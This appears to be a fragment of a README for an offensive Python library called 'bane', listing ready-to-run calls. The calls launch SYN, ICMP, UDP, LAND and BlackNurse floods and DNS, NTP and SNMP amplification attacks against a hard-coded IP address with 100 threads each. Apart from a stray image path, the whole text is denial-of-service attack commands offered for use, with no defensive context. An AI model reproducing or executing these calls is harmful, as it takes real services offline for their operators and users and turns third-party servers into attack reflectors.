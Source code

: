 >>>bane.synflood('50.63.33.34',p=80,threads=100)

>>>bane.icmpstorm('50.63.33.34',p=80,threads=100)

>>>bane.land('50.63.33.34',p=80,threads=100)

>>>bane.udpstorm('50.63.33.34',p=80,threads=100)

>>>bane.blacknurse('50.63.33.34',p=80,threads=100)

>>>bane.dnsamplif('50.63.33.34',p=80,dnslist=[your_dns_servers_list_here],threads=100)

>>>bane.ntpamplif('50.63.33.34',p=80,dnslist=[your_ntp_servers_list_here],threads=100)

>>>bane.snmpamplif('50.63.33.34',p=80,dnslist=[your_snmp_servers_list_here],threads=100)


